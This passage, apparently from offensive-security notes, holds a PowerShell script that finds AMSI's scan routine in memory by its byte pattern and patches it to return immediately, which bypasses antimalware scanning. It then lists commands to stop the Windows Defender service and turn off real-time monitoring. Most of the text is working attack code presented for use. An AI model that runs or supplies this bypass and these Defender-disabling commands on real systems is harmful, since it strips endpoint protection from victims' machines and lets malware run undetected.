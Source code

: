 ````powershell
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi
        0x57,                   # push    rdi
        0x41, 0x56,             # push    r14
        0x41, 0x57,             # push    r15
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h
    )
} Else {
	Write-Host "[+] 32-bits process"
    [byte[]]$egg = [byte[]] (
        0x8B, 0xFF,             # mov     edi,edi
        0x55,                   # push    ebp
        0x8B, 0xEC,             # mov     ebp,esp
        0x83, 0xEC, 0x18,       # sub     esp,18h
        0x53,                   # push    ebx
        0x56                    # push    esi
    )
}
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)
Write-Host "[+] Targeted address: $targetedAddress"

$oldProtectionBuffer = 0
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null

$patch = [byte[]] (
    0x31, 0xC0,    # xor rax, rax
    0xC3           # ret  
)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)

$a = 0
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null

`````
This will bypass amsi and now in order to test if amsi bypass worked

> ‘AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386’ 

#### stop windows defender service (admin privileges)

> sc stop WinDefend


#### Disable realtime monitoring Powershell (admin privileges)

> Set-MpPreference -DisableRealTimeMonitoring $true








